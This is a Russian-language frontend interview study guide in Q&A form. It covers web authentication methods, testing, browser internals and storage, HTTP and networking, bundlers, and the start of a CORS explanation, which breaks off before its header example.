


Рекомендую к просмотру цикл лекций по инфраструктуре фронтенда: [https://youtube.com/playlist?list=PLfwvG6fycyyORVsOVT06yuKcREmEfIOgL&si=Aiq5BUMalxAcQ1i9](https://youtube.com/playlist?list=PLfwvG6fycyyORVsOVT06yuKcREmEfIOgL&si=Aiq5BUMalxAcQ1i9)

Записи этих же лекций, но с живыми ответами на вопросы ты найдешь тут: [https://t.me/c/2188056950/10526](https://t.me/c/2188056950/10526)

# Идентификация, аутентификация, авторизация

Рекомендую к просмотру: [https://youtu.be/amlPrfUWTqo?si=vJTz5-ypX2PPz-mq](https://youtu.be/amlPrfUWTqo?si=vJTz5-ypX2PPz-mq)

<details>
<summary><b>Какие бывают виды аутентификации в вебе?</b></summary>

Видов очень много, назову самые популярные, которые часто используются в работе фронтендера.

1. **Basic Authentication (Базовая аутентификация)**

    **Принцип работы:**

    - При использовании базовой аутентификации клиент отправляет запросы к серверу с заголовком `Authorization`, который содержит строку вида `Basic <base64(username:password)>`.

    - Сервер проверяет эту строку, декодируя её и сравнивая с сохраненными учетными данными.

    **Преимущества:**

    - Простой в реализации и использовании.

    - Подходит для внутреннего использования или в сочетании с HTTPS.

    **Недостатки:**

    - Не защищен от перехвата данных, если не используется HTTPS, так как пароли передаются в виде Base64, что легко декодируется.

    - Не предоставляет механизма для выхода или управления сессиями.

    - У всех пользователей один и тот же пароль, поэтому невозможно отличить пользователей

2. **Token-Based Authentication (Аутентификация на основе токенов)**

    **Принцип работы:**

    - Пользователь сначала аутентифицируется, предоставляя свои учетные данные.

    - Сервер генерирует токен (например, JWT — JSON Web Token), который клиент должен включать в заголовки каждого последующего запроса (обычно в `Authorization` как `Bearer <token>`).

    **Преимущества:**

    - Токены могут содержать информацию о пользователе и сроке действия, упрощая управление сессиями.

    - Может использоваться в различных средах, включая мобильные и SPA (Single Page Applications).

    **Недостатки:**

    - Требуется дополнительная обработка для управления токенами и их безопасного хранения на клиенте.

    - Потенциальные проблемы с безопасностью, если токены не защищены должным образом.

3. **OAuth 2.0**

    **Принцип работы:**

    - OAuth 2.0 — это протокол авторизации, который позволяет сторонним приложениям получать ограниченный доступ к ресурсам пользователя без раскрытия пароля.

    - Существует несколько потоков (flows), таких как Authorization Code Flow, Implicit Flow, Client Credentials Flow и Resource Owner Password Credentials Flow.

    **Преимущества:**

    - Обеспечивает гибкость и безопасность при интеграции с сторонними сервисами.

    - Позволяет пользователям предоставлять доступ к своим данным без раскрытия своих учетных данных.

    **Недостатки:**

    - Сложный в настройке и требует понимания различных потоков и конфигураций.

    - Механизмы безопасности зависят от правильной реализации и настройки.

4. **OpenID Connect**

    **Принцип работы:**

    - OpenID Connect (OIDC) является надстройкой над OAuth 2.0, добавляющей аутентификацию к протоколу авторизации.

    - Позволяет приложению проверять личность пользователя на основе аутентификации, выполненной авторизующим сервером.

    **Преимущества:**

    - Обеспечивает единый способ аутентификации и авторизации через один протокол.

    - Упрощает интеграцию с социальными провайдерами (например, Google, Facebook).

    **Недостатки:**

    - Как и в случае с OAuth 2.0, требует правильной настройки и понимания протокола.

5. **Session-Based Authentication (Аутентификация на основе сессий)**

    **Принцип работы:**

    - После успешной аутентификации сервер создает сессию и сохраняет её идентификатор (обычно в виде cookie) на клиенте.

    - Каждое последующее обращение клиента к серверу включает идентификатор сессии, который сервер использует для проверки подлинности.

    **Преимущества:**

    - Простота и широкое распространение.

    - Обработка сеансов и авторизации может быть централизованной.

    **Недостатки:**

    - Требуется управление состоянием сессий и безопасность cookie.

    - Менее удобен для распределенных систем и SPA.

### Дополнительные материалы

- [https://medium.com/nuances-of-programming/основы-аутентификации-для-начинающих-43ef800f923e](https://medium.com/nuances-of-programming/основы-аутентификации-для-начинающих-43ef800f923e)

- [https://habr.com/ru/companies/dataart/articles/262817/](https://habr.com/ru/companies/dataart/articles/262817/)

- [https://vladislaveremeev.gitbook.io/qa_bible/seti-i-okolo-nikh/autentifikaciya-i-avtorizaciya-authentication-and-authorization](https://vladislaveremeev.gitbook.io/qa_bible/seti-i-okolo-nikh/autentifikaciya-i-avtorizaciya-authentication-and-authorization)

</details>

---

<details>
<summary><b>Что такое идентификация?</b></summary>

Идентификация — это процесс, когда информационная система, например социальная сеть или интернет-магазин, определяет, существует конкретный пользователь или нет. Делает она это с помощью идентификатора.

Идентификатором может быть логин, электронная почта, номер телефона или другой признак, который есть только у одного пользователя. Идентификатор позволяет сайту или приложению отличить конкретного человека от других людей.

### Дополнительные материалы

- [https://skillbox.ru/media/code/identifikatsiya-autentifikatsiya-avtorizatsiya-chem-oni-razlichayutsya/](https://skillbox.ru/media/code/identifikatsiya-autentifikatsiya-avtorizatsiya-chem-oni-razlichayutsya/)

</details>

---

<details>
<summary><b>Что такое аутентификация?</b></summary>

Аутентификация — это процесс, когда пользователь вводит ключ, например пароль или пин-код, подтверждая своё право на доступ к той или иной учётной записи и хранящейся в ней информации.

Аутентификация бывает одно-, двух- и трёхфакторной.

Однофакторная аутентификация требует подтверждения только одним способом — например, с помощью пароля. Она встречается чаще всего.

Двухфакторная аутентификация используется в системах, которые хранят важные или личные данные. Например, в банковских приложениях или в социальных сетях. При входе в соцсеть у пользователя могут попросить не только пароль, но и другую информацию — код из СМС или биометрические данные.

В системах с повышенными требованиями к безопасности — например, в банковской сфере — встречается **трёхфакторная аутентификация**. Третьим фактором, позволяющим подтвердить личность, могут быть электронные ключи доступа. Электронный ключ хранится на специальном USB-накопителе и подключается в момент подтверждения доступа.

### Дополнительные материалы

- [https://skillbox.ru/media/code/identifikatsiya-autentifikatsiya-avtorizatsiya-chem-oni-razlichayutsya/](https://skillbox.ru/media/code/identifikatsiya-autentifikatsiya-avtorizatsiya-chem-oni-razlichayutsya/)

</details>

---

<details>
<summary><b>Что такое авторизация?</b></summary>

Авторизация — это процесс присвоения учётной записи положенных ей привилегий.

### Дополнительные материалы

- [https://skillbox.ru/media/code/identifikatsiya-autentifikatsiya-avtorizatsiya-chem-oni-razlichayutsya/](https://skillbox.ru/media/code/identifikatsiya-autentifikatsiya-avtorizatsiya-chem-oni-razlichayutsya/)

</details>

---

# Тестирование

<details>
<summary><b>Какие виды автоматизированных тестов используются для фронтенда?</b></summary>

Существует пирамида тестирования. Она состоит из слоев и каждый слой — это отдельный вид тестов. 

Чем ниже слой — тем он более стабильный и тем больше тестов этого типа должно быть на проекте.

Чем выше слой — тем он менее стабильный. Такие тесты могут часто «флапать», то есть «то проходить, то не проходить»

Пирамида тестирования во фронтенде выглядит так:



Кратко про все виды тестов:

1. **Unit-тесты**

- **Что проверяют:** маленькие изолированные куски кода (функции, утилиты, компоненты без зависимостей).

- **Инструменты:** Jest, Vitest, Mocha, React Testing Library (для простых проверок).

- **Цель:** быстрый фидбек, чтобы сразу ловить баги на низком уровне.

- **Пример:** проверка, что функция `formatPrice(1000)` вернёт `1 000 ₽`.

- **Кто пишет:** сами фронтенд-разработчики

- Сложность написания: easy

2. **Скриншотные тесты (visual regression)**

- **Что проверяют:** визуальные изменения интерфейса.

- **Инструменты:** Storybook + Chromatic, Percy, Loki.

- **Цель:** поймать неожиданные изменения в верстке и стилях.

- **Пример:** при редизайне кнопки тест заметит, что padding или цвет изменились.

- **Кто пишет:** сами фронтенд-разработчики

- **Сложность написания:** easy

3. **Интеграционные тесты**

- **Что проверяют:** взаимодействие нескольких компонентов или модулей вместе.

- **Инструменты:** React Testing Library, Cypress (component/integration mode), Playwright.

- **Цель:** убедиться, что связки работают правильно (например, компонент → API → рендер списка).

- **Пример:** тест проверяет, что при загрузке данных из API список задач отобразится корректно.

- **Кто пишет:** сами фронтенд-разработчики

- **Сложность написания:** medium

4. **E2E-тесты**

- **Что проверяют:** пользовательский сценарий целиком.

- **Инструменты:** Cypress, Playwright, WebdriverIO.

- **Цель:** симулировать реальную работу в браузере.

- **Пример:** пользователь логинится → открывает корзину → оформляет заказ.

- **Кто пишет:** фронтенд-разработчики или тестировщики-автоматизаторы (QA Automation Engineers)

- **Сложность написания:** hard

### Дополнительные материалы

- [https://youtu.be/y2emL1fMRyY?si=KgXshyGOcOXkKf9J](https://youtu.be/y2emL1fMRyY?si=KgXshyGOcOXkKf9J) — МАСТ ХЭВ ВИДЕО

</details>

---

# Браузер

<details>
<summary><b>Что происходит при вводе url в браузерную строку и нажатии на enter?</b></summary>

- **Поиск IP-адреса**

    Каждый сайт в интернете имеет свой **IP-адрес**. Однако запоминать IP-адреса неудобно (например, `192.168.1.1`), поэтому мы используем доменные имена (как `example.com`).

    Сперва браузер ищет IP-адрес домена у себя кэше, затем в кэше системы, затем в записях роутера. Если он там его не находит, то отправляет запрос к специальному "телефонному справочнику" интернета — **DNS-серверу**. Этот сервер переводит доменное имя (например, `example.com`) в IP-адрес.

- **Установление TCP-соединения**

    После того как браузер получил IP-адрес сайта от DNS-сервера, он начинает общение с сервером, где находится сайт.
Для этого браузер создаёт соединение через интернет с использованием протоколов **TCP/IP**. Также определяется порт: `80` для HTTP или `443` для HTTPS

- **TLS/SSL-шифрование (если HTTPS)**

    Если используется HTTPS, то устанавливается защищённый канал. Сервер отправляет браузеру свой цифровой сертификат, который содержит публичный ключ сервера и информацию о сертификате, подписанную доверенным центром сертификации (CA). Браузер проверяет подлинность сертификата, чтобы убедиться, что он был выдан доверенным CA и не был изменен. Этот процесс включает проверку цепочки сертификатов и проверку подписи CA.

    После проверки сертификата браузер генерирует сессионный ключ для симметричного шифрования. Этот ключ будет использоваться для шифрования данных во время сеанса. Браузер шифрует сессионный ключ с помощью публичного ключа сервера и отправляет его обратно на сервер. Этот процесс называется "ключевым обменом" и является критически важным для безопасности соединения.

    Сервер расшифровывает сессионный ключ с помощью своего приватного ключа. Теперь и браузер, и сервер имеют общий сессионный ключ, который будет использоваться для шифрования и расшифрования данных во время сеанса.

- **Отправка HTTP-запроса**

    Когда соединение установлено, браузер отправляет на сервер запрос:
"Привет! Я хочу получить страницу по адресу `/` на сайте `example.com`."
Это называется **HTTP-запрос** (если используется шифрованный канал, то это **HTTPS-запрос**).

- **Ответ от сервера**

    Сервер, который хранит сайт, принимает запрос и отправляет обратно **ответ**. Этот ответ состоит из двух основных частей:

    - **Заголовки** — информация о запросе

    - **Тело ответа** — это сам код сайта (HTML, CSS, JavaScript)

    - **Код статуса** (например, `200`, `404`, `301` и др.)

- **Загрузка ресурсов страницы**

    Когда браузер получает HTML-код страницы, он начинает его парсить.
Если в HTML-коде есть ссылки на другие ресурсы (картинки, стили, скрипты), браузер отправляет дополнительные запросы к серверу, чтобы загрузить эти файлы.

- **Отрисовка страницы**

    Браузер теперь имеет всю информацию (HTML, CSS, JavaScript) и начинает собирать страницу.

    Браузер строит **DOM-дерево** и **CSSOM-дерево**, а затем соединяет их, чтобы отрисовать страницу на экране. Этот процесс называется **рендерингом**.

- **Выполнение JavaScript**

    Если в коде есть JavaScript, браузер его выполняет

### Дополнительные материалы

- [https://habr.com/ru/companies/gnivc/articles/861432/](https://habr.com/ru/companies/gnivc/articles/861432/)

- [https://habr.com/ru/articles/188042/](https://habr.com/ru/articles/188042/)

- [https://habr.com/ru/companies/karuna/articles/568702/](https://habr.com/ru/companies/karuna/articles/568702/)

- [https://youtu.be/x2j_fbTsQo8?si=waWOxdI5zl11Hl5W](https://youtu.be/x2j_fbTsQo8?si=waWOxdI5zl11Hl5W)

</details>

---

<details>
<summary><b>Какие существуют браузерные хранилища и в чем их различие?</b></summary>

Браузер предоставляет несколько хранилищ:

1. **Cookies** 

    - **Описание**: небольшие фрагменты данных (обычно до 4 КБ), которые сохраняются в браузере в виде строки и отправляются на сервер с каждым HTTP-запросом.

    - **Особенности**:

        - **Размер**: ограничение около 4 КБ на один куки.

        - **Срок действия**: можно установить срок действия (expires или max-age), после которого куки будет удален.

        - **Доступность**: доступны как на стороне клиента через JavaScript (`document.cookie`), так и на стороне сервера.

    - **Безопасность**:

        - **HttpOnly**: флаг, который запрещает доступ к куки через JavaScript, повышая защиту от XSS-атак.

        - **Secure**: куки будет передаваться только по защищенному соединению (HTTPS).

        - **SameSite**: контролирует отправку куки в кросс-доменных запросах, что помогает защититься от CSRF-атак.

    - **Использование**:

        - **Аутентификация**: сохранение сессий пользователя.

        - **Трекинг**: отслеживание активности пользователя (используется рекламными сетями).

    - **Недостатки**:

        - Ограниченный размер.

        - Подвержены угрозам безопасности, если не настроены правильно.

1. **Web Storage API**: включает в себя **LocalStorage** и **SessionStorage**

    **LocalStorage**

    - **Описание**: хранилище ключ-значение, которое сохраняет данные без срока действия. Данные сохраняются при закрытии вкладки и даже окна браузера.

    - **Особенности**:

        - **Размер**: обычно ограничение около 5 МБ (может варьироваться в зависимости от браузера).

        - **Доступность**: доступно только на стороне клиента через JavaScript (`window.localStorage`).

        - **Область видимости**: данные доступны на всех вкладках и окнах в рамках одного домена.

    - **Безопасность**:

        - Не следует хранить чувствительные данные (например, токены доступа), так как доступ возможен из JavaScript и может быть скомпрометирован через XSS-атаки.

    - **Использование**:

        - Сохранение пользовательских настроек.

        - Кэширование данных приложения.

    - **Недостатки**:

        - Отсутствие механизмов шифрования и защиты.

        - Синхронные операции, что может влиять на производительность при работе с большими объемами данных.

    **SessionStorage**

    - **Описание**: Хранилище ключ-значение, которое сохраняет данные на время сессии. Данные удаляются после закрытия вкладки или окна браузера.

    - **Особенности**:

        - **Размер**: обычно около 5 МБ.

        - **Доступность**: доступно только на стороне клиента через JavaScript (`window.sessionStorage`).

        - **Область видимости**: данные доступны только в текущей вкладке или окне.

    - **Использование**:

        - Сохранение данных, необходимых только на время текущей сессии.

1. **IndexedDB**

    - **Описание**: низкоуровневое API для хранения значительных объемов структурированных данных, включая файлы/блобы. Предоставляет механизм баз данных в браузере.

    - **Особенности**:

        - **Размер**: гигабайты данных (ограничения зависят от браузера и дискового пространства пользователя).

        - **Доступность**: доступно через JavaScript (`window.indexedDB`).

        - **Хранилище ключ-значение**: данные хранятся в хранилищах объектов (object stores), которые похожи на таблицы в реляционных базах данных.

        - **Асинхронность**: операции выполняются асинхронно, что предотвращает блокировку основного потока.

        - **Транзакции**: поддержка транзакций для обеспечения целостности данных.

    - **Использование**:

        - Хранение больших объемов данных, таких как офлайн-кеширование веб-приложений.

        - Сохранение данных приложений, которые работают офлайн (например, Progressive Web Apps).

    - **Недостатки**:

        - Сложность API: более сложен в использовании по сравнению с LocalStorage.

        - Поддержка браузеров: широкая, но могут быть некоторые отличия в реализации.

### Дополнительные материалы

- [https://doka-guide.vercel.app/tools/browsers-storages/](https://doka-guide.vercel.app/tools/browsers-storages/)

- [https://learn.javascript.ru/data-storage](https://learn.javascript.ru/data-storage)

</details>

---

<details>
<summary><b>Что такое Critical Render Path из каких этапов состоит?</b></summary>

- **Парсинг HTML и построение DOM-дерева**: браузер начинает считывать HTML-файл сверху вниз, разбивая его на токены и постепенно строя **Document Object Model (DOM)** — внутреннее представление структуры HTML-документа в виде дерева узлов.

- **Парсинг CSS и построение CSSOM-дерева**

    - **Загрузка CSS**: при обнаружении ссылок на CSS-файлы (`<link rel="stylesheet">`), браузер отправляет дополнительные запросы для их загрузки. Встроенные стили (`<style>`) также обрабатываются.

    - **Парсинг CSS**: загруженные CSS-файлы и стили обрабатываются для построения **CSS Object Model (CSSOM)** — объектной модели стилей, которая отражает все применимые к элементам стили.

- **Построение Render Tree (дерева рендеринга)**

    - **Объединение DOM и CSSOM**: браузер объединяет DOM-дерево и CSSOM-дерево, создавая **Render Tree** — дерево визуальных элементов, которые должны быть отображены на экране.

    - **Фильтрация внеэкранных элементов**: элементы с `display: none` или те, что находятся вне области просмотра (viewport), исключаются из Render Tree.

- **Layout (вычисление геометрии элементов)**: браузер проходит по Render Tree и вычисляет точные размеры, положение и геометрию каждого элемента на странице. Этот процесс также известен как **reflow. Э**лементы могут быть распределены по различным слоям (например, из-за свойств `z-index`, трансформаций или позиций). Это позволяет браузеру оптимизировать отрисовку и перерисовку частей страницы при взаимодействии пользователя. Часть эффектов выполняется на GPU для ускорения отрисовки.

- **Composition (?)** — в некоторых документациях и докладах этап распределения элементов по разным слоям выделяется в отдельный этап Composition. Но это опционально, можно отнести его к этапу Layout.

- **Paint (отрисовка):** на этом этапе браузер преобразует каждую часть Render Tree в пиксели на экране.

### Дополнительные материалы

- [https://habr.com/ru/articles/834184/](https://habr.com/ru/articles/834184/)

- [https://developer.mozilla.org/ru/docs/Web/Performance/Critical_rendering_path](https://developer.mozilla.org/ru/docs/Web/Performance/Critical_rendering_path)

- [https://youtu.be/Qz8RfiTum24?si=9QvzScYYHJoeyd5r](https://youtu.be/Qz8RfiTum24?si=9QvzScYYHJoeyd5r) - тут мемное видео

- [https://youtu.be/On2EWADF81Y?si=xDwrzVxXthJxAaD0](https://youtu.be/On2EWADF81Y?si=xDwrzVxXthJxAaD0) - тут серьезный глубокий доклад

</details>

---

<details>
<summary><b>Для чего нужны полифилы?</b></summary>

«Полифил» (англ. polyfill) – это библиотека, которая добавляет в старые браузеры поддержку возможностей, которые в современных браузерах являются встроенными.

### Дополнительные материалы

- [https://learn.javascript.ru/polyfills](https://learn.javascript.ru/polyfills)

</details>

---

<details>
<summary><b>Что такое DOM?</b></summary>

**DOM (Document Object Model)** — это объектная модель HTML-документа, которую браузер строит после парсинга кода страницы.

Проще: **DOM = дерево объектов страницы**, где каждый тег превращается в узел (элемент, атрибут, текст).

### Дополнительные материалы

- [https://learn.javascript.ru/dom-nodes](https://learn.javascript.ru/dom-nodes)

</details>

---

<details>
<summary><b>Что такое Shadow DOM?</b></summary>

**Shadow DOM** — это технология веб-компонентов, которая позволяет создавать **изолированное DOM-дерево внутри элемента**.

Оно скрыто от внешнего документа: стили и разметка внутри не пересекаются с «главным» DOM.

Применение:

- инкапсуляция стилей и логики,

- предотвращение конфликтов CSS и JS,

- основа для веб-компонентов (например, `<video>`, `<input type="range">` используют shadow DOM внутри).

### Дополнительные материалы

- [https://learn.javascript.ru/shadow-dom](https://learn.javascript.ru/shadow-dom)

</details>

---

# Сеть, HTTP, API

<details>
<summary><b>Что такое Websoket?</b></summary>

**WebSocket** — это сетевой протокол поверх TCP, который обеспечивает **постоянное двунаправленное соединение** между клиентом (браузером) и сервером. То есть сообщения может отправлять не только клиент, но и сервер.

Отличия от HTTP:

- HTTP работает по схеме *запрос → ответ*.

- WebSocket после первоначального **handshake через HTTP(S)** переключается в режим постоянного канала, где обе стороны могут отправлять данные в любой момент.

Особенности:

- Поддержка в браузерах (`new WebSocket("wss://...")`).

- Используется для чатов, онлайн-игр, торговых терминалов, уведомлений в реальном времени.

- Шифрованная версия: `wss://` (аналог HTTPS).

### Дополнительные материалы

- [https://learn.javascript.ru/websocket](https://learn.javascript.ru/websocket)

</details>

---

<details>
<summary><b>Что такое SSE?</b></summary>

`Server-Sent Events` — это технология, позволяющая серверу самостоятельно отправлять обновления (события) на веб-страницу клиента в реальном времени через обычное HTTP-соединение.

### Как работает:

Клиент один раз устанавливает соединение, после чего сервер "пушит" данные по мере их поступления (например, новые уведомления, котировки акций или ответы нейросетей, выводящиеся по слову).

### Отличие от WebSocket:

SSE работает только в одну сторону — от сервера к клиенту. WebSockets позволяют общаться туда и обратно.

### Преимущество:

В отличие от WebSockets, SSE работает поверх обычного HTTP, поддерживает автоматическое переподключение при обрыве связи и проще в реализации

### Дополнительные материалы

- Дока [https://developer.mozilla.org/ru/docs/Web/API/Server-sent_events/Using_server-sent_events](https://developer.mozilla.org/ru/docs/Web/API/Server-sent_events/Using_server-sent_events)
- Статья [https://habr.com/ru/articles/519982/](https://habr.com/ru/articles/519982/)

</details>

---

<details>
<summary><b>Какие есть группы кодов HTTP-статусов?</b></summary>

### Группы статус-кодов

### **1xx — Информационные**

- `100 Continue` — сервер принял начало запроса, можно продолжать.

- `101 Switching Protocols` — переключение протокола (например, на WebSocket).

### **2xx — Успех**

- `200 OK` — запрос успешно обработан.

- `201 Created` — ресурс создан (обычно после `POST`).

- `204 No Content` — успешно, но без тела ответа.

### **3xx — Редиректы**

- `301 Moved Permanently` — ресурс навсегда переехал.

- `302 Found` — временный редирект.

- `304 Not Modified` — можно взять из кэша, контент не изменился.

- `307/308` — «современные» редиректы (с сохранением метода запроса).

### **4xx — Ошибки клиента**

- `400 Bad Request` — неверный запрос.

- `401 Unauthorized` — нужна авторизация.

- `403 Forbidden` — доступ запрещён.

- `404 Not Found` — ресурс не найден.

- `405 Method Not Allowed` — метод (например, `PUT`) не поддерживается.

- `429 Too Many Requests` — слишком много запросов (rate limit).

### **5xx — Ошибки сервера**

- `500 Internal Server Error` — ошибка на сервере.

- `502 Bad Gateway` — шлюз получил неверный ответ от апстрима.

- `503 Service Unavailable` — сервер перегружен или недоступен.

- `504 Gateway Timeout` — апстрим не ответил вовремя.

### Дополнительные материалы

- [https://ru.wikipedia.org/wiki/Список_кодов_состояния_HTTP](https://ru.wikipedia.org/wiki/Список_кодов_состояния_HTTP)

</details>

---

<details>
<summary><b>Что такое REST API?</b></summary>

**REST API** — это подход к разработке веб-сервисов, где взаимодействие клиента и сервера строится по принципам REST (**Representational State Transfer**).

Ключевые идеи:

- Используются стандартные HTTP-методы:

    - `GET` — получить данные,

    - `POST` — создать,

    - `PUT/PATCH` — изменить,

    - `DELETE` — удалить.

- У каждого ресурса есть свой URL (например, `/users/123`).

- Сервер возвращает данные в формате JSON/XML.

- API должно быть **stateless** — каждый запрос самодостаточен, не зависит от предыдущих.

### Дополнительные материалы

- [https://practicum.yandex.ru/blog/chto-takoe-rest-api-i-kak-rabotaet/](https://practicum.yandex.ru/blog/chto-takoe-rest-api-i-kak-rabotaet/)

- [https://habr.com/ru/articles/590679/](https://habr.com/ru/articles/590679/)

</details>

---

<details>
<summary><b>В чем разница между HTTP и HTTPS?</b></summary>

**HTTP** — протокол передачи данных в открытом виде. Всё, что идёт между клиентом и сервером, можно перехватить и прочитать (man-in-the-middle атака).

**HTTPS** = HTTP + **TLS** (раньше SSL). Добавляет три вещи:

- **Шифрование** — данные зашифрованы, перехват бесполезен

- **Аутентификация** — сертификат подтверждает, что сервер именно тот, за кого себя выдаёт

- **Целостность** — данные нельзя подменить в транзите незаметно

---

**Как это работает (кратко — TLS Handshake):**

1. Клиент → сервер: «Привет, вот мои поддерживаемые алгоритмы шифрования»

2. Сервер → клиент: «Вот мой сертификат» (подписан центром сертификации CA)

3. Клиент проверяет сертификат по цепочке доверия

4. Согласуют сессионный ключ (через ECDH или RSA)

5. Дальше всё общение — симметричное шифрование (AES и т.п.)



</details>

---

<details>
<summary><b>В чем разница между GET и POST?</b></summary>

**GET** — запрашивает данные. **POST** — отправляет данные для обработки. Это договоренности по REST API. 

---

**Ключевые различия:**

||GET|POST|
|-|-|-|
|Данные|В URL (`?key=value`)|В теле запроса|
|Идемпотентность|✅ Да|❌ Нет|
|Кешируемость|✅ Да|❌ Нет (по умолчанию)|
|История браузера|Сохраняется|Нет|
|Закладки|Можно|Нельзя|
|Ограничение размера|~2-8KB (URL)|Практически нет|
|Безопасность данных|Данные видны в URL|В теле (но без HTTPS всё равно открыто)|

---

**Семантика важнее механики:**

- **GET** — безопасный (safe) и идемпотентный: можно повторять сколько угодно, состояние не меняется

- **POST** — создаёт ресурс или вызывает действие с побочным эффектом

Поэтому браузер при обновлении страницы с POST показывает «Вы уверены, что хотите повторить отправку?» — он знает, что это не идемпотентно.

---

**Что важно знать фронтендеру:**

```JavaScript
// GET — параметры в URL
fetch('/api/users?role=admin&page=2')

// POST — данные в body
fetch('/api/users', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({ name: 'Daniel', role: 'admin' })
})
```

- GET-запросы браузер и CDN кешируют автоматически — это преимущество для перформанса

- Пароли и чувствительные данные **никогда** не передавать через GET — оседают в логах сервера, истории браузера, Referer-заголовке

</details>

---

<details>
<summary><b>В чем разница между HTTP2 и HTTP3?</b></summary>

**HTTP/2** (2015) — решил проблемы HTTP/1.1, но остался на TCP. **HTTP/3** (2022) — переехал с TCP на **QUIC** (UDP-based), чтобы решить проблемы самого TCP.

---

**Что HTTP/2 улучшил над HTTP/1.1:**

- Мультиплексирование — много запросов в одном соединении

- Header compression (HPACK)

- Server Push

- Бинарный протокол вместо текстового

---

**Фундаментальная проблема HTTP/2 — Head-of-Line Blocking на уровне TCP:**

TCP гарантирует порядок доставки пакетов. Если один пакет потерялся — все остальные стримы **ждут**, пока он не будет переслан. Это называется **TCP HOL Blocking**.

HTTP/2 решил HOL blocking на уровне приложения, но не на уровне транспорта.

---

**Что HTTP/3 меняет:**

||HTTP/2|HTTP/3|
|-|-|-|
|Транспорт|TCP|QUIC (поверх UDP)|
|HOL Blocking|На уровне TCP есть|Устранён|
|Handshake|TCP (1-2 RTT) + TLS (1-2 RTT)|QUIC совмещает: 1 RTT, повторно 0-RTT|
|TLS|Опционально (но де-факто всегда)|Встроен обязательно|
|Смена сети (Wi-Fi → LTE)|Разрывает соединение|Connection ID — соединение сохраняется|
|Зрелость|Очень зрелый|Молодой, не все серверы/прокси поддерживают|

---

**QUIC — ключевое нововведение:**

QUIC работает поверх UDP, но реализует внутри себя:

- Надёжную доставку

- Контроль перегрузки

- Мультиплексирование без HOL blocking

- TLS 1.3 встроен в handshake

Потеря пакета в одном стриме не блокирует остальные — каждый стрим независим.

---

**Что важно знать фронтендеру:**

- HTTP/3 особенно выигрывает на **мобильных сетях** и при нестабильном соединении

- На хорошем десктопном интернете разница почти незаметна

- Cloudflare, Google, Facebook уже давно на HTTP/3

- Проверить в DevTools: вкладка Network → колонка Protocol (`h2` / `h3`)

- Для разработчика API-интерфейс не меняется — это транспортный уровень

---

**Грубая аналогия:**

- HTTP/1.1 — одна касса в супермаркете

- HTTP/2 — несколько касс, но один общий выход, который может заблокироваться

- HTTP/3 — несколько касс с полностью независимыми выходами

</details>

---

# Сборщики (webpack, vite и другие)

<details>
<summary><b>Для чего нужны сборщики (webpack, vite)?</b></summary>

**Сборщики (webpack, Vite и др.)** нужны для подготовки фронтенд-кода к работе в браузере.

Основные задачи:

- **Сборка модулей** (JS, TS, CSS, картинки) в один или несколько бандлов.

- **Трансформация кода**: поддержка ES6+, TypeScript, JSX и т.п. → в совместимый  с браузером JS.

- **Оптимизация**: минификация, tree-shaking (удаление неиспользуемого кода), разделение на чанки (chunks).

- **Работа с ассетами**: загрузка и оптимизация изображений, шрифтов, стилей.

- **Dev-сервер** с hot reload (обновление страницы в при изменениях в коде без явной перезагрузки).

### Дополнительные материалы

- [https://habr.com/ru/articles/898102/](https://habr.com/ru/articles/898102/)

</details>

---

# Безопасность

<details>
<summary><b>Что такое CORS и для чего он нужен?</b></summary>

**CORS** — это механизм безопасности, реализованный в веб-браузерах, который позволяет управлять доступом к ресурсам на сервере с другого домена, отличного от того, с которого был загружен сайт. Политика CORS помогает предотвратить неавторизованный доступ к ресурсам и защищает пользователей от некоторых типов атак, например, CSRF.

---

**Почему нужна политика CORS?**

Веб-браузеры работают по принципу **политики одного источника (Same-Origin Policy)**, которая запрещает запросы с одного домена на другой без специального разрешения. Это ограничение предотвращает выполнение нежелательных или вредоносных скриптов.

Однако иногда легитимные приложения или API требуют обмена данными между разными доменами. Например:

- Ваш сайт (на домене `site.com`) хочет загрузить данные из API на домене `api.site.com`.

- Веб-приложение нужно подключить к стороннему API (например, карты Google).

Для таких случаев используется CORS, который позволяет серверу определять, какие домены имеют право на доступ к его ресурсам.

---

**Как работает CORS?**

1. **Клиентский запрос:**

    - Браузер отправляет запрос к ресурсу на другом домене.

    - Если запрос потенциально небезопасен (например, использует методы `POST`, `PUT`, `DELETE` или нестандартные заголовки), браузер сначала отправляет **предварительный запрос (preflight request)** методом `OPTIONS`, чтобы узнать, разрешён ли доступ.

1. **Ответ сервера:**

    - Сервер возвращает специальные заголовки CORS, указывая, разрешён ли доступ.

    - Если доступ разрешён, браузер выполняет основной запрос. Если нет, браузер блокирует запрос.

---

**Пример CORS-заголовков**

Сервер может вернуть следующие заголовки в ответ на запрос:

